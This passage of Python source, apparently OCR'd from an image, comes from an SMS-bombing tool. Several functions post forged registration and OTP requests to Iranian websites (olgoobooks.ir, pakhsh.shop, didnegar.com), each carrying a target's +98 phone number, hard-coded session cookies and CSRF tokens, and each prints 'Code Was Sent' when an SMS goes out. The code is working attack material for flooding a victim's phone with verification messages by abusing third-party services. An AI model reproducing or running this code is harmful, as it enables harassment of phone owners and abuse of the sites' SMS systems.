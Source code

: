 'contactInfo[agreementAccepted]': '1',
'contactInfo[teachingFieldId]': '1',
'contactInfo[eduGradeIds][7]': '7',
'submit_register': '1'}
    olU = 'https://www.olgoobooks.ir/sn/userRegistration/?&requestedByAjax=1&elementsId=userRegisterationBox'
    olH = {'Accept': 'text/plain, */*; q=0.01',
'Accept-Encoding': 'gzip, deflate, br',
'Accept-Language': 'en-US,en;q=0.9',
'Connection': 'keep-alive',
'Content-Length': '163',
'Content-Type': 'application/x-www-form-urlencoded',
'Cookie': 'PHPSESSID=l1gv6gp0osvdqt4822vaianlm5',
'Host': 'www.olgoobooks.ir',
'Origin': 'https://www.olgoobooks.ir',
'Referer': 'https://www.olgoobooks.ir/sn/userRegistration/',
'X-Requested-With': 'XMLHttpRequest',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36'}
    try:
        olgoo = post(timeout=5, url=olU, headers=olH, data=olD).text
        if 'مدت زمان باقی‌مانده تا دریافت مجدد کد' in olgoo:
            print(f'{g}(NashrOlgoo) {w}Code Was Sent')
            return True
    except:
        pass
    
def pakhsh(phone):
    paD = f'action=digits_check_mob&countrycode=%2B98&mobileNo=0{phone.split("+98")[1]}&csrf=fdaa7fc8e6&login=2&username=&email=&captcha=&captcha_ses=&json=1&whatsapp=0'
    paU = 'https://www.pakhsh.shop/wp-admin/admin-ajax.php'
    paH = {'accept': '*/*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'content-length': '143',
'content-type': 'application/x-www-form-urlencoded; charset=UTF-8',
'cookie': 'digits_countrycode=98; _wpfuuid=b21e7550-db54-469f-846d-6993cfc4815d',
'origin': 'https://www.pakhsh.shop',
'referer': 'https://www.pakhsh.shop/%D9%85%D8%B1%D8%A7%D8%AD%D9%84-%D8%AB%D8%A8%D8%AA-%D8%B3%D9%81%D8%A7%D8%B1%D8%B4-%D9%88-%D8%AE%D8%B1%DB%8C%D8%AF/',
'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36',
'x-requested-with': 'XMLHttpRequest'}
    try:
        ok = post(timeout=5, url=paU, headers=paH, data=paD).json()
        if ok['code'] == '1':
            print(f'{g}(PakhshShop) {w}Code Was Sent')
            return True
    except:
        pass
def didnegar(phone):
    paD = f'action=digits_check_mob&countrycode=%2B98&mobileNo={phone.split("+98")[1]}&csrf=4c9ac22ff4&login=1&username=&email=&captcha=&captcha_ses=&digits=1&json=1&whatsapp=0&mobmail=0{phone.split("+98")[1]}&dig_otp=&digits_login_remember_me=1&dig_nounce=4c9ac22ff4'
    paU = 'https://www.didnegar.com/wp-admin/admin-ajax.php'
    paH = {'accept': '*/*',
'accept-encoding': 'gzip, deflate, br',
'accept-language': 'en-US,en;q=0.9',
'content-length': '143',
'content-type': 'application/x-www-form-urlencoded; charset=UTF-8',
'cookie': 'PHPSESSID=881f0d244b83c1db49d4c39e5fe7b108; digits_countrycode=98; _5f9d3331dba5a62b1268c532=true',
'origin': 'https://www.didnegar.com',
'referer': 'https://www.didnegar.com/my-account/?login=true&back=home&page=1',